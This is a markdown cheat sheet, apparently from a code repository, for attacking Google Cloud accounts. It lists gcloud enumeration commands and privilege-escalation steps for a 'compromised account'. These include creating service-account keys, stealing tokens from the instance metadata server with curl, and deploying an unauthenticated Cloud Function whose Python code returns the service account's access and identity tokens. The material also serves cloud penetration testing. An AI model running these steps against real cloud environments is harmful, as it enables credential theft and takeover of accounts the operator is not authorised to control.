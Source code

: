 ## GCP cheatsheet
### General
- End users can authenticate at `myaccount.google.com`
- Admins use `admin.google.com`
- For projects, use `console.cloud.google.com`
### Basic actions
- Visit the following URL to check token validity
```
https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=TOKEN
```
- Authenticate with a SA key file
```
gcloud auth activate-service-account --key-file KEYFILE.json
```
- List current config
```
gcloud config list
```
- Set project in config
```
gcloud config set project PROJECTID
```
- List authenticated accounts
```
gcloud auth list
```
### Organization, project, and service account enumeration
- List accessible organizations
```
gcloud organizations list
```
- List a specific organization's IAM policies
```
gcloud organizations get-iam-policy ORGANIZATIONID
```
- List projects
```
gcloud projects list
```
- List a specific project's IAM policies
```
gcloud projects get-iam-policy PROJECTNUMBER
```
- List a specific project's service accounts
```
gcloud iam service-accounts list --project PROJECTID
```
- List a SA's list of key IDs (ten keys is the maximum an account can have)
```
gcloud iam service-accounts keys list --iam-account SERVICEACCOUNT
```
- Get current account's policy on the given SA
```
gcloud iam service-accounts get-iam-policy SERVICEACCOUNT
```
- List custom roles for a specific project
```
gcloud iam roles list --project PROJECTID
```
- Get a specific role's permissions
```
gcloud iam roles describe ROLENAME --project PROJECTID
```

### Computer instance enumeration
- List compute instances
```
gcloud compute instances list
```
- Get current account's policy on a given compute instance
```
gcloud compute instances get-iam-policy --zone ZONE
```

### Storage and bucket enumeration
- List storages
```
gcloud storage ls
```
- List the contents of a specific bucket
```
gcloud storage ls BUCKETNAME
```

### Privilege escalation via SA key creation
- If the compromised account has `iam.serviceAccountKeyAdmin` permissions on an SA then you can create keys for the given SA
- Create a new key for the SA (will be saved to KEYNAME.json locally)
```
gcloud iam service-accounts keys create KEYNAME.json --iam-account SERVICEACCOUNT
```

### Privilege escalation via compute admin login
- If the compromised account has `compute.osAdminLogin` permissions then you have arbitrary access to any compute instance (similar to AWS SSM)
- Get into a compute instance with SSH
```
gcloud compute ssh --zone ZONE COMPUTEINSTANCE
```
- Enumrate the scope of the compute instance's SA
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/scopes
```
- Scope https://www.googleapis.com/auth/cloud-platform is editor permissions
- Get compute instance's SA token
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/token
```
- Save the token to a file and use it to enumerate as usual
```
gcloud projects list --access-token-file TOKENFILE
```

### Privilege escalation via cloud functions
- If the compromised account has editor permissions or the `iam.serviceAccounts.actAs` and `cloudfunctions.functions.create` permissions then you can escalate to owner or any other high privilege role
- Save the following code as `main.py`
```
import subprocess
import random
import io
import json
import string
import os
from urllib.request import Request, urlopen
from base64 import b64decode, b64encode

def exploit(request):
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token = json.loads(content)
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/identity?audience=32555940559.apps.googleusercontent.com')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token["identity"] = content.decode('utf-8')
    return json.dumps(token)
```
- Create the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions deploy FUNCTIONAME --timeout 539 --trigger-http --allow-unauthenticated --source PATH/TO/main.py --runtime python37 --entry-point exploit --service-account TARGETSA
```
- Run the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions call FUNCTIONNAME
```
- Run the function via HTTP
```
curl FUNCTIONURL
```